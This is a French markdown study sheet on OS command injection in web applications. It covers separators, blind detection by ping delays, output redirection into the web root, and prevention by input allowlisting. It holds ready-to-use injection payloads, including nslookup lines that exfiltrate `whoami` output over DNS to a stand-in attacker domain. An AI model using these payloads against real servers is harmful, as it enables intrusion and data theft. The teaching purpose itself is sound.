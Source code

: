```yaml
---
title: "OS command injection"
category: "Command Injection"
tag: "Web : Serveur"
---
```


## CheckList en pratique
- Injection avec retour d'information : `& whoami &` avec les différents séparateurs de commandes (`&,&&,|,||,;,\n,0x0a,`)
- Bind injection :
    - Détecter en provoquant du délai : `qsParam=test||ping+-c+10+127.0.0.1+||`
    - Exploitation en faire une redirection dans un dossier writable : `email=||whoami>/var/www/images/output.txt||`
    - Exploitation par injection utilisant des techniques **OAST** :
    ``&email=test||nslookup+kgji2ohoyw.web-attacker.com||`` 
    - Exploitation & **exfiltration de données** par injection utilisant des techniques **OAST** : 
    ``&email=test||nslookup+`whoami`.kgji2ohoyw.web-attacker.com||``

## Explication de la vulnérabilité
Cette vulnérabilité web permet à un attaquant d'exécuter une commande de système d'exploitation (OS) sur le serveur sur lequel l'application est exécutée, et compromettre toute l'application et ses données. Souvent, cette attaque amène à une exploitation de l'infrastructure hôte en pivotant sur d'autres systèmes de l'organisation.

## Exécution de commandes arbitraires
Considérons un site de magasin qui vérifie si un article est en stock de la manière suivante :
`https://insecure-website.com/stockStatus?productID=381&storeID=29`
Pour fournir l'information et pour des raisons historiques, la fonctionnalité va appelé une commande shell avec le produit et son ID de la manière suivante :
`stockreport.pl 381 29`, et le retour est renvoyé à l'utilisateur.

Sans protection, l'attaquant peut injection la commande suivante `& echo toto &` ce qui donnera `stockreport.pl & echo toto & 29`

## Commandes utiles
|Purpose of command|Linux|Windows|
|:----|:----|:----|
|Nom de l'utilisateur courant|whoami|whoami|
|système d'exploitation|uname -a|ver|
|configuration réseau|ifconfig|ipconfig /all|
|connections réseau|netstat -an|netstat -an|
|processus courants|ps -ef|tasklist|

## Vulnérabilités d'injection Blind de commandes OS
De nombreuses injections de commandes sont faites en aveugle, ce qui veut dire que l'application ne renvoie pas de sortie de la commande dans la réponse HTTP. On peut exploiter les vulnérabilités en aveugle, mais de différentes manières.

pour illustrer cela, on peut prendre le cas d'une application qui permet de donner un feedback sur un site en donnant son adresse mail et le message de feedback. L'application du côté serveur génère un email vers l'administrateur du site contenant le feedback. 

Pour cela, il peut utiliser un programme `mail` avec les détails, par exemple :
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`
### Détecter les injections de commandes OS en aveugle avec l'utilisation de délais
On peut utiliser une injection de commande qui va ajouter un temps de délai, nous permettant de voir que la commande a bien été injecté.
On peut faire ça avec `ping` par exemple, pour allonger le temps de traitement  :
`& ping -c 10 127.0.0.1 &`
Cette commande va ping son adresse réseau de loopback pendant 10 sec.

### Exploitation d'injections de commandes OS en aveugle par redirection de sortie
On peut rediriger la sortie de l'injection de commandes dans un fichier à l'intérieur de la racine du site web, que l'on peut récupérer avec le navigateur ensuite.

Par exemple, si l'application sert des ressources statiques à partir de l'emplacement du système de fichiers `/var/www/static`, vous pouvez soumettre l'entrée suivante :

`& whoami > /var/www/static/whoami.txt &`

### Exploitation d'injections de commandes OS en aveugle à l'aide de techniques hors bande (OAST)
On peut utiliser une commande injectée qui déclenchera une interaction réseau hors bande avec un système qu'on contrôle, en utilisant des techniques OAST. En voici un exemple :
`& nslookup kgji2ohoyw.web-attacker.com &`

Ce payload utilise la commande nslookup pour provoquer une recherche DNS pour le domaine spécifié. L'attaquant peut surveiller l'exécution de la recherche spécifiée et détecter ainsi que la commande a été injectée avec succès.

On peut aussi exfiltrer facilement la sortie de commandes avec cette technique :
``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``
Ce qui provoquera une recherche DNS vers le domaine de l'attaquant contenant le résultat de la commande whoami :
`wwwuser.kgji2ohoyw.web-attacker.com`
## Façons d'injecter des commandes du système d'exploitation
De nombreux métacaractère du shell peuvent être utilisés pour effectuer des attaques par OS command injection.
On peut icter les caractères qui servent de séparateurs de commandes, permettant d'enchaîner les commandes.

Sous Windows et Unix on a par exemple :
- `&`
- `&&`
- `|`
- `||`

Sous les systèmes basés sur Unix :
- `;`
- `\n` ou `0x0a`
On a également la possibilité de faire des commandes de types inline :
- `` ` ``
- `$()`

## Comment se prémunir des Injections de commandes OS
La meilleure manière de s'en prémunir est de ne jamais appeler des commandes OS à partir d'un code provenant de la couche applicative. Il existe des alternatives sécurisées notamment avec des APIs.

S'il est inévitable de faire une commande OS avec une entrée utilisateur, alors une validation de l'entrée doit être faite, ce qui peut inclure :
- une validation à l'aide d'une liste blanche des valeurs autorisées
- une validation si l'entrée doit être un caractère numérique
- une validation des entrées alphanumériques, sans autoriser d'autres caractères comme les espaces ou autres.